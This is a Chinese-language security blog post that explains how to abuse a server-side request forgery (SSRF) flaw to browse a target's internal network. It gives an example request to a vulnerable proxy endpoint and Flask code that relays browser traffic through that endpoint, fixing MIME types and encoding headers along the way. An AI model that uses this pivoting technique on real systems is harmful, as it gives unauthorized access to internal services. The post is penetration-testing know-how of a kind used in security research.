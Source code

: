 ```yaml
---
title: SSRF漏洞配合Flask的巧妙利用 - 内网漫游
layout: post
date: '2020-03-21'
permalink: "/archivers/2020-03-21/2"
description: SSRF(Server-side Request Forge, 服务端请求伪造)。由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务...
---
```


## SSRF 服务器请求伪造

SSRF(Server-side Request Forge, 服务端请求伪造)。由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务。

### 常见的功能点

![2020-03-21-16-58-32](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/488f1abdc7ce71395c6adc1eafaec9bc.png)

- Net-NTLM && NTLM Relay
- 获取服务器真实IP
- 端口扫描
- **网页代理**
- ......

### 网页代理 - HTTP Proxy

![2020-03-21-17-01-01](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2254f77d861f4e0ed512fb96cbf4e0cc.png)

**客户端应用HTTP代理后，可通过代理服务器访问内网HTTP协议资源**

**而在SSRF场景，需要SSRF具备支持HTTP两大请求方式：GET、POST，且有响应Body**

```
POST /application/services/proxy/doPostAndGet HTTP/1.1
Host: app.domain.com
Connection: keep-alive
Content-Length: XX
Content-Type: application/json
Accept: */*
Referer: http://app.domain.com/application/portal/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

{
    "url":"http://domain.com/sso?login",
    "method":"post",
    "jsonBody":"{\"username\":\"123456\"}"
}
```


## Flask 框架

![2020-03-21-17-02-11](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/d583d5996730b6dedece0d0a37293330.png)


Flask是一个用Python编写的Web应用程序框架，它基于Werkzeug WSGI工具包和Jinja2模板引擎。

Flask也被称为“microframework” ，因为它使用简单的核心，用extension增加其他功能，它没有默认使用的数据库、窗体验证工具。

```python
from flask import Flask
app = Flask(__name__)

@app.route('/')
def hello_world():
    return 'Hello, World!'
```

![2020-03-21-17-02-36](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/bd5986bb7d7072741938d609bcbcbbac.png)

```
$ export FLASK_APP=hello.py
$ python -m flask run
 * Running on http://127.0.0.1:5000/
```
### Flask 框架的请求流程

1. befor_first_request
2. befor_request
3. after_request
4. teardown_request → 异常处理
5. after_this_request

![2020-03-21-17-03-02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/aa6371f165a89586b6b27e416d6140aa.png)

```python
from flask import Flask, request, Response
import requests
app = Flask(__name__)

@app.before_request
def _proxy(*args, **kwargs):
    resp = requests.request(
        method=request.method,
        url=request.url,
        headers={key: value for (key, value) in request.headers},
        data=request.get_data(),
        cookies=request.cookies,
        allow_redirects=False)

    excluded_headers = ['content-encoding', 'content-length', 'transfer-encoding', 'connection']
    headers = [(name, value) for (name, value) in resp.raw.headers.items()
               if name.lower() not in excluded_headers]

    response = Response(resp.content, resp.status_code, headers)
    return response
if __name__ == "__main__":
    app.run(debug=True)
```

Flask的默认端口是：5000

![2020-03-21-17-03-33](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/811e55d62514ad3fde7ccac72b925cf3.png)

插件名称：SwitchyOmega

![2020-03-21-17-03-48](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/ce2bbd6872539ded588a40dc94d5e7f3.png)

通过把代理服务器设置为5000（Flask默认）端口，浏览器的所有请求都会经过这五个装饰器，在每个装饰器中，可以写自己的检测规则。由于许多的SSRF漏洞接口返回的Content-Type始终都是一样的，因此会产生图片、JS等静态文件无法加载，下面我们将解决这个问题。

### 解决文件类型问题

遇到这个问题，首先分析浏览器为什么无法加载。

1. SSRF漏洞接口返回的Content-Type是Json，那么我们还需要将Json转化为一个字典，把DATA取出。
2. 根据SSRF漏洞请求的URI来定义MIME Type，Response返回对应的MIME Type即可解决

```python
def get_filetype(url):
    content_type = 'text/html'
    response_mimetype = {
        '.png':'image/png',
        '.js':'application/javascript',
        '.jpg':'image/jpeg',
        '.gif': 'image/gif',
        '.jpeg':'image/jpeg',
        '.ico':'image/x-icon',
        '.css':'text/css',
        '.svg':'image/svg+xml',
    }
    disassembled = urlparse(url)
    filename, file_ext = splitext(basename(disassembled.path))
    content_type = response_mimetype.get(file_ext, 'text/html')
    return content_type
```

这里定义了一些常见的MIME类型，通过截取URI的文件扩展名来找到对应的MIME类型，默认找不到就以HTML返回，不知道还有没有更赞的办法，如果有欢迎分享。

### Content-Encoding问题

Accept-Encoding 和Content-Encoding是HTTP中用来对采用哪种编码格式传输正文进行协定的一对头部字段。

通过SSRF漏洞接口返回的通常可能是附带Content-Encoding头的响应，但与SSRF目标返回的不匹配，会造成网页展示不完全的情况。（本质上是接口取回的内容已经是解码后的，但接口本身可能又有编码头）

```python
excluded_headers = ['content-encoding', 'content-length', 'transfer-encoding', 'connection']
        headers = [(name, value) for (name, value) in resp.raw.headers.items()
                   if name.lower() not in excluded_headers]
```

这里的解决方式是剔除编码头 Content-Encoding。